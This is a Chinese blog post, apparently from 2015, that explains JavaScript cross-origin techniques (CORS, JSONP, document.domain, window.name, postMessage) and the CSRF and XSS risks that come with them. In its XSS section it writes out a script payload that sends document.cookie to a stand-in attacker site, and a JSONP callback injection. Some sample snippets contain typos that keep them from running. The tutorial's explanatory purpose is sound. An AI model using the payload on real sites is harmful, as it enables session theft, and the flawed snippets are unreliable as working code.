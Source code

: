 ```yaml
---
layout: post
title: 浅谈js跨域问题
date: 2015-09-23
author: "Jenny"
tags: [javascript,xss,csrf,跨域]
---
```


> 所谓跨域，或者异源，是指主机名（域名）、协议、端口号只要有其一不同，就为不同的域（或源）。浏览器中有一个基本的策略，叫同源策略，即限制“源”自A的脚本只能操作“同源”页面的DOM。

先聊一下w3c的***CORS规范***：
> CORS旨在定义一种规范让浏览器在接收到从提供者获取资源时能够决定是否应该将此资源分发给消费者作进一步处理。

具体如下：

1. 消费者发送一个Origin报头到提供者端：`Origin: http://www.a.com`；

2. 提供者发送一个Access-Control-Allow-Origin响应报头给消费者，如果值为*或Origin对应的站点，则表示同意共享资源给消费者，如果值为null或者不存在Access-Control-Allow-Origin报头，则表示不同意共享资源给消费者；

3. 浏览器根据提供者的响应报文判断是否允许消费者跨域访问到提供者源。

要解决跨域的问题，有以下几种方法：

1. 通过Jsonp跨域

对于一段JavaScript脚本来说，其“源”与它存储的地址无关，而取决于脚本被加载的页面，例如我们在页面中使用<script>引入存储在其他域的脚本文件：

`<script src="http://www.a.com/index.js"></script>`

这里脚本与当前页面是同源的。除了<script>，还有<img>、<iframe>、<link>等都具有跨域加载资源的能力。

Jsonp正是利用这种特性来实现跨域的：在页面中引入要跨域访问的来源，并定义回调函数处理跨域访问得到的json数据。如：

```
<script>
function handleData(data) {
    //处理数据
}
</script>
<script src="http://www.a.com/getData.do?callback=handleData"></script>
```

也可以使用jquery封装的方法，如$.ajax:

```
<script>
function hadnleData(data) {
    //处理数据
}
$.ajax({
    url: 'http://www.a.com/getData.do?callback=?',
    type: "GET",
    dataType: "jsonp",
    jsonpCallback: "handleData"
});
</script>
```

当然还需要服务端配合处理：

```
String handleData = request.getParameter("callback");//客户端的回调函数
out.println(handleData+"("+resultJSON+")");//返回jsonp格式数据
```

2. 修改document.domain来跨子域

www.a.com/1.html和a.com/2.html是不同域的，要使他们可以跨域访问，可通过修改document.domain来实现，即在两个页面中都设置：

`document.domain="a.com";`

需要注意的是document.domain只能往父级修改，如a.com改为www.a.com是不被允许的，这也是此方法的局限性，只使用于跨子域访问。

3. 使用window.name来跨域访问

window.name是同一浏览器窗口下载入的所有页面共享的数据字段，所有窗口都可以读写此字段的内容。所以假设a.com要访问b.com的数据，只需要在b.com中将数据放在window.name中，然后a.com从中取出即可。此方法适用于像iframe这样的嵌套页面架构。

4. 使用HTML5的window.postMessage方法

假设要在a.com和b.com页面之间传递数据：

```
//a.com页面
window.postMesssage(JSON.stringify({xxx:'test'},'b.com');
//b.com页面
window.onMessage=function(e){
    var data = JSON.parse(e.data);
    console.log(data); //{xxx:'test'}
}
```

下面谈一下跨域访问的一些安全性问题，主要是CSRF和XSS攻击问题。

1. CSRF/XSRF攻击

网上找到一个大神发的图，贴在这里观摩观摩：

![](/img/cross-domain/1.png)

其实就是危险网站B在自己网站上贴了网站A的某个接口链接（a标签或form提交是支持跨域的），引导用户点击（骗取用户cookie）去访问网站A，祸因在于用户登录了A在不注销的情况下登录了B。解决方法有很多，如验证码，表单附加随机数等，原理基本都是校验登录方的请求令牌。

如果使用跨域访问可以更简单的进行CSRF攻击（当然也有相应的防范措施），当某网站通过JSONP方式来跨域传递用户认证后的敏感信息时，攻击者可以构造恶意的JSONP调用页面，诱导被攻击者访问来达到截取用户敏感信息的目的。（这里有一个微博股吧CSRF攻击的[例子](https://www.91ri.org/13407.html)）

目前比较好的防止CSRF攻击的方法是***referer过滤校验+token验证***，即服务端检测JSON文件调用来源和检查token数据是否匹配。

2. XSS攻击（XSS注入）

此攻击方法类似sql注入，即提交含有恶意脚本的数据到服务器，从而达到破坏页面甚至盗取cookie伪装登录等目的。例如，在a.com/index.ftl中有如下代码：`欢迎你，${username}`，这时恶意网站b.com传递参数：

`username=<script>window.open(“www.b.com?param=”+document.cookie)</script>`

这样就轻而易举地盗取了用户的cookie值了。

在jsonp跨域访问中，xss注入主要是callback参数注入，如：

`<script src="http://www.a.com/getData.do?callback=<script>alert('xss');</script>"></script>`

防止措施是对参数进行校验过滤。
